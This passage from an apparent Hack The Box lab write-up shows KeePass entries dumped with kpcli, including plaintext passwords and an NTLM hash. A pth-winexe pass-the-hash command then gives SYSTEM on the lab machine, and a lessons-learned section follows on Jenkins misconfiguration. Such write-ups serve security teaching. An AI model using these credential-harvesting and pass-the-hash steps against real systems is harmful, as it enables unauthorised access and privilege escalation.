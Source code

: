 ```text
kpcli:/CEH> show -f 5Title: Jenkins admin
Uname: admin
 Pass: 
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable!kpcli:/CEH> show -f 6Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL: 
Notes:kpcli:/CEH> show -f 4Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes:kpcli:/CEH> show -f 0Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes:
```

I’m not going to bother with _admin_ and _bob_ because I know from the _net user_ command that they’re not users on the system. The _Backup stuff_ entry however contains what looks like an NTLM hash.

Let’s try a pass the hash attack on the _administrator_ account.

```text
pth-winexe --user=administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe
```

We’re SYSTEM!

![](../images/max/891/1*0JFTB5oSBVuVeDwTSpj6Bg.png)

There you go, two different ways of escalating privileges!

## Lessons Learned <a id="29db"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Insecure configuration of Jenkins permissions. We had full privileges on the Jenkins server, without having to authenticate. The administrator should have locked down access to the Jenkins UI so that users need to be authenticated and appropriate set of permissions are given to these users.

To escalate privileges we exploited one vulnerability.
